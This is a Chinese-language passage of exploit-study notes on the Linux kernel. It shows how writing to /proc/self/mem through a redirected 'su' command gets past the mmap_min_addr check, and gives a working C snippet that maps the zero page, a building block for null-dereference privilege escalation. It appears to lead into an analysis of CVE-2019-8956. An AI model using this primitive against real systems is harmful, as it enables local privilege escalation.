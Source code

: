 最后到达

```c
int cap_mmap_addr(unsigned long addr)
{
	int ret = 0;

	if (addr < dac_mmap_min_addr) {
		ret = cap_capable(current_cred(), &init_user_ns, CAP_SYS_RAWIO,
				  SECURITY_CAP_AUDIT);
		/* set PF_SUPERPRIV if it turns out we allow the low mmap */
		if (ret == 0)
			current->flags |= PF_SUPERPRIV;
	}
	return ret;
}
```

其中![image-20200128233341916](https://tva1.sinaimg.cn/large/006tNbRwgy1gbctnm7b3hj312w01saav.jpg)

一般为4096也就是0x1000

`cap_mmap_addr`函数实际就是判断当前执行进程的cred是否有权限分配低地址

这也就导致了如果使用`su >&%d < /dev/null`之类的命令向`/proc/self/mem`中写入数据的时候,current_cred其实是root权限,可以绕过这个限制。

在linux中`su >&%d < /dev/null`这种文件操作会调用`mem_write`函数

最终在写入的地址小于**vm->start**时,如果设置了**VM_GROWSDOWN**选项的话,就会调用`expand_downwards`函数

![image-20200128234713919](https://tva1.sinaimg.cn/large/006tNbRwgy1gbctnhmuxjj31ay0ko78b.jpg)

```c
	unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
	if (addr != 0x10000)
			err(2,"mmap failed");
	int fd = open("/proc/self/mem",O_RDWR);
	if (fd == -1)
			err(2,"open mem failed");
	char cmd[0x100] = {0};
	sprintf(cmd, "su >&%d < /dev/null", fd);
	while (addr)
	{
			addr -= 0x1000;
			if (lseek(fd, addr, SEEK_SET) == -1)
					err(2, "lseek failed");
			system(cmd);
	}
	printf("contents:%s\n",(char *)1);
```

于是通过这段payload,我们就可以映射到0地址

# CVE-2019-8956
